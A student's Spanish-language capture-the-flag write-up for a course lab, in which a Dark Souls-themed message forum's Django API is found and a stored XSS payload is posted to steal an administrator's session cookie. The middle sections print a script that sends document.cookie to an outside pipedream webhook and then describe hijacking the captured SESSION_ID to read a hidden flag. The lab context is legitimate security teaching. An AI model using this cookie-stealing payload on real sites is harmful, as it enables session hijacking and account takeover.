 # Writeup P3 Tarea 2

**Nombre**: Valentina Rojas Osorio

**Equipo**: Hack Pals

# Desarrollo 

 _Para la solución de este problema, se está obviando la **instalación** de herramientas vistas durante el curso, sin embargo, se especifica detalladamente cómo utilizarlas en cada paso. También se especifican usos e instalación de herramientas externas (no vistas)._
 
 _Además, se debe estar conectado a la VPN del CEC, para tener acceso al servidor 172.17.69.241_

---
 Comenzamos con un foro con temática de Dark Souls que nos permite dejar mensajes que se crean mediante templates, es decir, no podemos dejar un mensaje libremente.

1. Procedemos a inspeccionar la página, vemos que en el header están linkeados 2 archivos _.js_, uno corresponde a css que es archivo de estilos por lo que no nos interesa. 

1. En el inspector, nos dirigimos a la pestaña Debugger, luego a Sources, y en la carpeta assets, encontramos el archivo js que no es de estilos.


1. Nos vamos a la ubicación del archivo _js_ para ver mejor su contenido. http://172.17.69.241:54321/assets/index.f6853aaf.js

## Api Root Django

Nos dirigirnos a http://172.17.69.241:54321/assets/index.f6853aaf.js para ver mejor el contenido del script.

1. El archivo contiene principalmente las palabras del template para generar mensajes. Si seguimos bajando, encontramos la siguiente línea
    ```js
    methods:{sendMessage(){fetch("http://172.17.69.241:5432/messages/",{method:"POST"
    ```
    Esto significa que los mensajes se reciben de otro puerto, en especifico del puerto 5432.

1. Al dirigirnos a http://172.17.69.241:5432/messages/ nos encontramos con la Api Root de Django y al final de la página aparece un "form" que nos permite dejar mensajes.

1. Escribimos cualquier mensaje y lo enviamos, al revisar el puerto 54321, podemos corroborar que nuestro mensaje aparece ahí.

1. Al revisar todas las opciones/herramientas que tiene la página, seleccionamos el apartado "filters", nos aparecerá el filtro `Is deleted:` en estado "Unknown", luego lo cambiamos a "Yes" y damos click a Submit. 

1. La página nos redirige a http://172.17.69.241:5432/messages/?is_deleted=true y  encontramos un mensaje eliminado que dice:
    ```
    "content": you don't have the right, O you don't have the right so to speak<br>try cookie"
    ```
    Esto significa que necesitamos una cookie de administrador para poder ver este contenido.

1. Como anteriormente encontramos el "panel" donde podemos postear mensajes, atacamos con una inyección, enviando como mensaje un script que nos permita robar la cookie del admin aprovechando que se mete constantemente al servidor.


1. Siguiendo el hint del equipo docente, se debe modificar el script con el que hemos trabajado anteriormente para que se ejecute de inmediato, de esta forma el script que enviaremos es
    ```js
    <script>
        let cookies = document.cookie;
        let connip = 'link';
        fetch(${connip}?cookies=${cookies}).then(response => console.log(response));
    </script>
    ```
    * _En link, debemos poner el url del server que creamos para recibir las peticiones GET con el servicio web [pipedream](https://pipedream.com/)_


## Pipedream

Para poder hostear un server, hay que crearse una cuenta en pipedream.com

1. Una vez creada la cuenta, creamos un Workflow, seleccionamos New HTTP/Webhook Request y corroboramos que se reciban request con response code 200, apretamos Save and continue y nos entregará el link de nuestro server, la URL se verá más o menos así
     ```
     https://eovg4q6yd8q47c3.m.pipedream.net
     ```
    Esta es la URL que debemos poner en el 'link' de nuestro script.

1. Luego hacemos `deploy`, y esperamos que nos aparezcan las request en los eventos del servidor, debemos fijarnos en las de tipo GET y al ver los detalles nos saldrá información de la Cookie de quien hace las request.

## Cookie del admin

Hay una cookie que se logra capturar más de una vez y tiene nombre "diferente"
```
Name = SESSION_ID
Value = 5c6ffbdd40d9556b73a21e63c3e0e904
```

Abrimos el inspector en http://172.17.69.241:5432/messages/?is_deleted=true nos vamos a la pestaña Storage y seteamos la cookie con los parámetros anteriores. 

Recargamos la página y podremos visualizar 2 páginas de mensajes eliminados, si nos vamos a la página 2, encontramos el siguiente mensaje

```
"id": 165,
"created_at": "2022-05-18T19:16:09.796221Z",
"content": "something incredibe ahead in short<br>try CC5325{th0u_4rt_0f_p4551NG_sk1ll}",
"is_deleted": true
```

## Resultados

Finalmente, la flag de este problema es
```
CC5325{th0u_4rt_0f_p4551NG_sk1ll}
```


     

    